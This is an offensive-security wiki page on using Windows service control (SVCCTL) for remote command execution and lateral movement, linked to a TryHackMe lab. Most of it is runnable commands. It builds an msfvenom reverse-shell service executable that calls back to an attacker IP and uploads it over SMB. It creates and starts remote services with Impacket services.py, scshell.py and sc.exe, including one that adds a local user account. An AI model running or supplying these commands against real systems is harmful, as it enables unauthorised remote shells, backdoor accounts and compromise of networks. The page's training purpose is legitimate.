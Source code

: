 # Services (SVCCTL)

## Theory

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

* By using [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) protocols over RPC to connect EMP at port 135. WIll ask for the SVCCTL RPC Endpoint wich is a dynamic port
* Try to reach SVCCTL Through SMB named pipes (\PIPE\svcctl) on port 445 (SMB) or 139 (SMB over NetBIOS)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
### Service.py

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [service.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/service.py) can be use to interact with services remotely.

```bash
# create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name shell-svc

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name shell-svc
```

We also can execute commands instead of a binary

```bash
# Using impacket services.py create service remotely
services.py <DOMAIN>/<user>@<TARGET> create -name addme -display addme -path "net user munra Pass123 /add"

# Using impacket services.py start the service and get the shell
services.py <DOMAIN>/<user>@<TARGET> start -name addme

# Using impacket services.py delete the service
services.py <DOMAIN>/<user>@<TARGET> delete -name addme
```

{% hint style="info" %}
You will get an error starting the service but the commands will still be executed
{% endhint %}

### Scshell.py

The script [scshell.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/scshell.py) can automate the process to spawn a shell

```bash
#Create a service, get shell, delete service
scshell.py domain/<user>@<TARGET>
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use the built in sc.exe binary to remotely interact with services

```bash
#Create remote service
sc.exe \\TARGET create MyService binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET create MyService binPath= "C:\Windows\TEMP\payload.exe" start= auto

#Start remote service
sc.exe \\TARGET start MyService

#Stop and delete a remote service
sc.exe \\TARGET stop MyService
sc.exe \\TARGET delete MyService
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}
